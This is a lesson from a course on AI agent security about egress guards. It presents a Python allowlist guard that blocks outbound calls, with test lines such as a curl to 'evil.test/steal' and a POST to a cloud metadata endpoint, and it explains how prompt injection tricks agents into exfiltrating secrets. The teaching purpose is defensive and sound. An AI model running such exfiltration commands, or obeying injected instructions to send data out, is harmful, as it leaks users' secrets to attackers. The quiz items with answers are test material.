

# Data exfiltration & egress guards

> **Motto** — The payoff of most attacks is sending your data out — block the exit.

*Part of Phase 17 — Security & Alignment.*

## The Problem

The goal of a successful prompt injection is usually **exfiltration**: trick the agent into
sending your source, secrets, or customer data to an attacker — a `curl` to their server, a
crafted URL, an email. Output-as-data (lesson 02) stops arbitrary execution; an **egress
guard** stops the specific dangerous action of reaching a non-allowlisted destination, at the
moment the agent tries it.

## The Concept



This is the Phase 7 egress concept reframed as a *security* control: default-deny outbound,
allowlist the few hosts you trust, applied as a pre-action guard.

## Build It

`code/exfil_guard.py` — a guard that inspects a proposed action for non-allowlisted egress:

```python
import re

ALLOWED_HOSTS = {"github.com", "api.anthropic.com", "registry.npmjs.org"}

def find_egress(text):
    return re.findall(r"https?://([a-zA-Z0-9.-]+)", text)

def guard(action_text):
    for host in find_egress(action_text):
        if host not in ALLOWED_HOSTS:
            return {"allow": False, "reason": f"blocked egress to {host} (not allowlisted)"}
    return {"allow": True}
```

```python
print(guard("curl https://github.com/repo"))         # allow
print(guard("curl https://evil.test/steal"))         # blocked
print(guard("POST data to http://169.254.169.254"))  # blocked (metadata endpoint!)
```

Default-deny is the rule: an unrecognized host (including cloud metadata endpoints like
`169.254.169.254`) is blocked, so an injected exfiltration attempt simply fails.

## Use It

Wire this as a PreToolUse hook on the Bash/network tools (Phase 8) — the harness-side belt —
*and* enforce a real network policy at the infrastructure layer (Phase 7 / Claude Code on the
web's network policy), which an attacker can't talk past. Defense in depth: the guard catches
the obvious, the network policy catches the rest.

## Ship It

[`code/exfil_guard.py`](../../03-exfiltration/code/exfil_guard.py) — an egress allowlist guard.

## Check Yourself

**Q1.** The usual *payoff* of a prompt injection is…

- A) slower responses
- B) exfiltration — sending your data to an attacker-controlled destination
- C) a typo
- D) higher cost

<details><summary>Answer</summary>B — block the exit to defuse the attack.</details>

**Q2.** The right default for outbound destinations is…

- A) allow all
- B) default-deny with a trusted allowlist
- C) block only known-bad
- D) no policy

<details><summary>Answer</summary>B — allowlist, don't blocklist.</details>

**Challenge.** Add detection for exfiltration via DNS/encoded payloads (e.g. a long
base64 subdomain) and explain why a network-layer policy is still required.

## Related

- Builds on: Phase 7 — [Egress control](../../../07-shell-and-sandbox-execution/06-egress-control/docs/en.md), [Output as data](../../02-output-as-data/docs/en.md)
- Next: [Secret redaction](../../04-secret-redaction/docs/en.md)
- [Roadmap](../../../../ROADMAP.md)
